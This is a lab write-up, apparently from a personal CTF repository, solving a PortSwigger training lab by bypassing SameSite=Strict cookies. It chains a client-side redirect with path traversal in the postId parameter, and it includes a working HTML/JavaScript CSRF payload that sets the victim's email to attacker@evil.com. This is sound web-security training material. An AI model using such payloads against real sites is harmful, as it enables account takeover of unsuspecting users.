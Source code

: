# SameSite Strict bypass via client-side redirect

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect), you'll learn: SameSite Strict bypass via client-side redirect! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191421.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191430.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191455.png)

**When we're logged in successfully, it'll set a new session cookie for us:**
```
Set-Cookie: session=YXhMRVKeqb8ShWXU33TCvm1ifYsfjvdF; Secure; HttpOnly; SameSite=Strict
```

In here, we can see **there is a `SameSite` attribute, which is set to `Strict` restriction.**

**View source page:**
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <input required hidden name='submit' value='1'>
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

As you can see, the form doesn't have a CSRF token parameter, which helps to prevent CSRF (Cross-Site Request Forgery) attack. So, it may be vulnerable to CSRF.

When we submit the form, it'll send a POST request to `/my-account/change-email`, with parameter `email`, `submit`.

Let's try to update our email address:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191841.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191847.png)

Works fine.

However, in order to exploit CSRF, we first have to **bypass the `SameSite=Strict` restriction.**

- Strict restriction:

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site.

One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.

As far as browsers are concerned, these client-side redirects aren't really redirects at all; the resulting request is just treated as an ordinary, standalone request. Most importantly, this is a same-site request and, as such, will include all cookies related to the site, regardless of any restrictions that are in place.

If you can manipulate this gadget to elicit a malicious secondary request, this can enable you to bypass any SameSite cookie restrictions completely.

That being said, we need to find another vulnerability to successfully exploit CSRF.

In the home page, we can view different posts:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192521.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192530.png)

And we can leave some comments.

Let's leave a test comment:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192707.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192935.png)

**After we send the request, it'll fetch a JavaScript file:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192954.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192809.png)

**`/resources/js/commentConfirmationRedirect.js`:**
```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

**When we go to `/post/comment/confirmation`, it'll run that JavaScript:**

- After 3 seconds, redirect user to `/post/<postId>`

**However, the GET parameter `postId` is fully under attacker's control!**

**Now, what if I change the path to `/my-account` via path traversal?**
```
/post/comment/confirmation?postId=../my-account/change-email
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194217.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194309.png)

It worked! Also, endpoint `/my-account/change-email` accept GET method!

**Armed with above information, we can craft a CSRF payload:**
```html
<html>
    <head>
        <title>CSRF-8</title>
    </head>
    <body>
        <script type="text/javascript">
            // Before URL encoded:
            // ?postId=../my-account/change-email?email=attacker@evil.com&submit=1
            document.location = 'https://0af50062047c8490c05fc7e3004600e4.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3Femail%3Dattacker%40evil.com%26submit%3D1';
        </script>
    </body>
</html>
```

This HTML payload will redirect user to our `/post/comment/confirmation` upon visit, then using the path traversal technique to exploit CSRF.

Let's host it on the exploit server and test it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194826.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194837.png)

It worked! Let's deliver the payload to victim!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194904.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194912.png)

# What we've learned:

1. SameSite Strict bypass via client-side redirect